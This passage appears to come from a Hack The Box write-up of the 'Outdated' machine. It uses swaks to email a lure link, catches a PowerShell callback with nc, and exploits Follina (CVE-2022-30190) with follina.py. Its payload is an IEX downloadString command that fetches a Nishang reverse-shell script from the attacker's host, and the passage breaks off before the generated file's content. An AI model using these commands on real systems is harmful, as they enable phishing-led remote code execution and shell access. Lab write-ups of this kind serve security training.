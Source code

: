 ```bash
swaks --to itsupport@outdated.htb --from shuciran@shuciran.com --body "http://10.10.14.2/" --header "Subject: Monitoring internal IP"
=== Trying outdated.htb:25...
=== Connected to outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<shuciran@shuciran.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Wed, 25 Jan 2023 03:06:29 -0500
 -> To: itsupport@outdated.htb
 -> From: shuciran@shuciran.com
 -> Subject: Internal web app
 -> Message-Id: <20230125030629.189195@kali>
 -> http://10.10.14.2/
 -> .
<-  250 Queued (12.110 seconds)
```
And we can see that a resource is being requested with an interesting User-Agent:
```bash
nc -lvnp 80
listening on [any] 80 ...

connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49865
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.906
Host: 10.10.14.2
Connection: Keep-Alive
```

### Exploitation
Searching for the vulnerabilities on the PDF (CVE-2022-30190) we find some references to the popular Follina exploit:
![Description](/assets/img/Pasted image 20230124191307.png)
After research a little bit about it, we identify a potential [Follina](https://github.com/chvancooten/follina.py)
github PoC. In order to exploit it all we need is to be shown in the help menu of the script: ^d8b8a4
```bash
python3 follina.py       
usage: follina.py [-h] -m {binary,command} [-b BINARY] [-c COMMAND] -t {docx,rtf} [-u URL] [-H HOST] [-P PORT]
follina.py: error: the following arguments are required: -m/--mode, -t/--type
```
Since the victim machine is running with powershell we can point to a web server that contains on the index.html file, the Powershell script from Nishang [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
```bash
python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/reverse.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```
This command will create a file called exploit.html on port 80 of the localhost interface, such file has the following content:

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio